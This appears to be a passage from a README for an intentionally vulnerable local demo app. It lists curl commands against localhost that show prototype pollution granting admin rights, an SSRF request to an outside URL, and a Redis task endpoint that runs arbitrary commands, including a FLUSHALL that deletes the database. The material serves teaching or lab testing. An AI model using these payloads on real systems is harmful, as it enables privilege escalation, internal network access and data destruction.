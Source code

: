 2. **Verifica iniziale dello stato:**
```bash
curl http://localhost:3000/check

#output atteso {}% 
```

3. **Attacco prototype pollution:**
```bash
curl -X POST http://localhost:3000/pollute \
  -H "Content-Type: application/json" \
  -d '{ "__proto__": { "admin": true } }'
```

4. **Verifica effetto:**
```bash
curl http://localhost:3000/check

#output atteso {"admin":true}%     
```

5. **SSRF*
```bash
curl "http://localhost:3000/ssrf?url=http://example.com"
```

6. **Redis, distribuzione task**
```bash
curl -X POST http://localhost:3000/task \
-H 'Content-Type: application/json' \
-d '{"command": "PING", "args": []}'
```
or
```bash
curl -X POST http://localhost:3000/task \
-H 'Content-Type: application/json' \
-d '{"command": "FLUSHALL", "args": []}'
#this one deletes the db
```


